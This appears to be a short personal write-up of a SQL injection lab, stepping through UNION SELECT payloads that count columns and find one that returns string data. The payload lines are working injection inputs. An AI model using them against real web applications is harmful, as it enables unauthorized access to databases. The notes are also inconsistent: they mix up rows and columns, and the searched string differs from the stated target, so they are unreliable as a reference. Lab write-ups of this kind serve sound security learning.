 Make the database retrieve the string: 'EUOXzb'
1. The first step in this lab is to find out the number of columns you can do this one of two ways:
		a. when solving for union based sql injection find number of rows by:
		' ORDER BY 1--
		b. ' UNION SELECT NULL, NULL--
By doing this I found that there is a total of 3 rows.
![[Pasted image 20211201102036.png]]

Now I realized that I have to find a column with a useful data type in a sql injection. 
So to do this I have submitted string data on union select payloads that place a string value into each column.
If the data type isn't compatible the db should return an error or exception

' UNION SELECT 'a',NULL,NULL,NULL--  
' UNION SELECT NULL,'a',NULL,NULL--  
' UNION SELECT NULL,NULL,'a',NULL--  
' UNION SELECT NULL,NULL,NULL,'a'--

I used this query to determine that the expected input is a string:
' UNION SELECT NULL,'a',NULL-- 

I then searched for the required string using:
' UNION SELECT NULL,'VqGnBB',NULL-- 

